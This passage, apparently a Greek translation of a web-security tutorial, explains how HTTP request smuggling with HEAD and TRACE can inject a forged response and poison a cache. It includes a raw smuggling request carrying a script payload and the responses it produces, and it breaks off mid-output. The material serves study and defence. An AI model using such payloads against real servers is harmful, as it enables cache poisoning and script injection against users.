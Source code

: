 Καθώς η απάντηση HEAD θα περιέχει έναν κεφαλίδα `Content-Length`, η **απάντηση του αιτήματος TRACE θα χειριστεί ως το σώμα της απάντησης HEAD, αντανακλώντας οποιαδήποτε δεδομένα** στην απάντηση. \
Αυτή η απάντηση θα σταλεί στο επόμενο αίτημα μέσω της σύνδεσης, οπότε αυτό θα μπορούσε να **χρησιμοποιηθεί σε ένα αρχείο JS που έχει αποθηκευτεί στη μνήμη cache για παράδειγμα για να ενσωματώσετε αυθαίρετο κώδικα JS**.

### Κατάχρηση του TRACE μέσω HTTP Response Splitting <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

Συνιστάται να συνεχίσετε να ακολουθείτε [**αυτή την ανάρτηση**](https://portswigger.net/research/trace-desync-attack) προτείνεται ένας άλλος τρόπος εκμετάλλευσης της μεθόδου TRACE. Όπως σχολιάζεται, είναι δυνατό να εισχωρήσετε ένα αίτημα HEAD και ένα αίτημα TRACE για να **ελέγξετε κάποια αντανακλώμενα δεδομένα** στην απάντηση στο αίτημα HEAD. Το μήκος του σώματος του αιτήματος HEAD υποδηλώνεται βασικά στον κεφαλίδα Content-Length και διαμορφώνεται από την απάντηση στο αίτημα TRACE.

Επομένως, η νέα ιδέα θα ήταν ότι, γνωρίζοντας αυτό το Content-Length και τα δεδομένα που δίνονται στην απάντηση TRACE, είναι δυνατό να κάνετε την απάντηση TRACE να περιέχει μια έγκυρη απάντηση HTTP μετά το τελευταίο byte του Content-Length, επιτρέποντας σε έναν επιτιθέμενο να ελέγχει πλήρως το αίτημα προς την επόμενη απάντηση (το οποίο θα μπορούσε να χρησιμοποιηθεί για να πραγματοποιηθεί μόλυνση της μνήμης cache).

Παράδειγμα:
```
GET / HTTP/1.1
Host: example.com
Content-Length: 360

HEAD /smuggled HTTP/1.1
Host: example.com

POST /reflect HTTP/1.1
Host: example.com

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok\r\n
Content-Type: text/html\r\n
Cache-Control: max-age=1000000\r\n
Content-Length: 44\r\n
\r\n
<script>alert("response splitting")</script>
```
Θα δημιουργήσει αυτές τις απαντήσεις (σημειώστε πώς η απάντηση HEAD έχει ένα Content-Length κάνοντας την απάντηση TRACE μέρος του σώματος του HEAD και μόλις το Content-Length του HEAD τελειώσει, μια έγκυρη HTTP απάντηση εισάγεται κρυφά):
```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 165

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 243

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok
Content-Type: text/html
Cache-Control: max-age=1000000
Content-Length: 50

```